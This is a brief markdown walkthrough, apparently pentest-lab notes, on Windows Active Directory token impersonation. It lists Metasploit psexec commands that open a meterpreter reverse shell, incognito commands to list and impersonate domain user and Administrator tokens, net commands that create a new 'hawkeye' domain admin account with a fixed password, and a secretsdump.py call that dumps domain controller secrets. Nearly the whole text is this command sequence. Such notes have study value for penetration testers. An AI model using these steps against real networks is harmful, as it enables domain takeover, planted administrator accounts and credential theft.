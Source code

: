 ## Token Impersonation Walkthrough

### Domain User Impersonation
- Load metasploit
- `use exploit/windows/smb/psexec`
- `set payload windows/x64/meterpreter/reverse_tcp
payload`
- `set rhost <user machine IP>`
- `set smbuser <username>`
- `set smbpass <password>`
- `set smbdomain <domain>`
- `run`
- Should get a meterpreter shell now
- `load incognito`
- `list_tokens -u`

  ![image](https://github.com/user-attachments/assets/bc2decab-98b2-4e1e-9c0c-81b49b3bcbc7)

- `impersonate_token <domain>\\<username>`

  ![image](https://github.com/user-attachments/assets/c04e5b9c-ddd5-439c-9ea6-7b779c69a717)

### Domain Admin Impersonation
- Logon as Domain Admin to workstation
- `list_tokens -u`

  ![image](https://github.com/user-attachments/assets/ecc73ff8-249a-43c8-be56-8766912b4bc0)

- `impersonate_token <domain>\\Administrator`

  ![image](https://github.com/user-attachments/assets/f3628b8c-1cf9-4515-952d-a4207a1201dd)

### Create a New Domain Admin
- `shell`
- `net user /add hawkeye Password1@ /domain`

  ![image](https://github.com/user-attachments/assets/b4b4bc9e-ef2e-4eed-9354-a64140d9c540)

- `net group "Domain Admins" hawkeye /ADD /DOMAIN`

  ![image](https://github.com/user-attachments/assets/4e97ca09-61b3-4fba-aebd-e6d88630a8d9)

### PoC
- Dump secrets: `secretsdump.py <domain>/hawkeye:'Password1@'@<DC IP>`

  ![image](https://github.com/user-attachments/assets/cee67092-e6d1-43c4-b8cd-27d5cfd90152)

- WOAH


![image](https://github.com/user-attachments/assets/20658b02-84e0-4bad-8cf7-c94435c88bc1)

